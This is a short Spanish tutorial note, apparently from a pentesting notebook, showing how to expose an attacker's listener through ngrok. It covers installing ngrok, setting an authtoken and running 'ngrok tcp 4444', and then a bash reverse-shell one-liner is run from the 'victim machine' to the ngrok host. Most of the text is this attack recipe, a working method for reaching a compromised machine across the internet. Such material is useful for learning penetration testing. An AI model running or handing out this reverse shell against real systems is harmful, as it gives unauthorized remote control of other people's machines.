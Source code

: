 Lo primero será registrarse en ngrok:
![[Pasted image 20240919134820.png]]
Y procedemos con la instalación:
```bash
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
	| sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
	&& echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
	| sudo tee /etc/apt/sources.list.d/ngrok.list \
	&& sudo apt update \
	&& sudo apt install ngrok
```
Y luego ejecutamos el siguiente comando:
```bash
ngrok config add-authtoken token # Sustituir esto último
```
Y ahora desde la máquina atacante ejecutamos este comando para recibir conexiones a nuestro puerto 4444:
```bash
ngrok tcp 4444
```
Y nos saldrá lo siguiente:
![[Pasted image 20240919135000.png]]
Una vez hecho esto, desde la máquina víctima ya podemos lanzar la reverse shell:
```bash
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/15520 0>&1
```
Y la recibimos:
![[Pasted image 20240919135116.png]]
![[Pasted image 20240919135104.png]]
